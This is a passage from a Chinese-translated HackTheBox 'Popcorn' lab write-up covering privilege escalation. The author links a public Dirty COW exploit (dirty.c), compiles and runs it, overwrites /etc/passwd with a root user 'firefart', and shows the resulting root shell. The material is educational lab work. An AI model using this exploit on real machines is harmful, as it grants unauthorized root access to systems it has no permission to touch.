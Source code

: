
### 脏牛

鉴于这个盒子的年龄，这里肯定有几个内核漏洞。例如，显示它正在运行：`uname -a``2.6.31`

    root@popcorn:/dev/shm# uname -r
    2.6.31-14-generic-pae
    

它可能容易受到[脏牛的攻击](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions)。它的页面包含 [POC 列表](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)。我运气最好。我可以抓取[这段代码](https://github.com/FireFart/dirtycow/blob/master/dirty.c)并在Popcorn上编译它：`dirty.c`

    www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
    

现在运行它：

    www-data@popcorn:/dev/shm$ chmod +x dirty
    www-data@popcorn:/dev/shm$ ./dirty
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: 
    Complete line:
    firefart:fiek5FdMtod.2:0:0:pwned:/root:/bin/bash
    
    mmap: b78a8000
    ^C
    

由于某种原因，它有时会挂起。一分钟后，我会杀死它。但是用户仍然被添加：

    www-data@popcorn:/dev/shm$ su - firefart
    Password: 
    firefart@popcorn:~# id
    uid=0(firefart) gid=0(root) groups=0(root)
    firefart@popcorn:~#
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2020/06/23/htb-popcorn.html)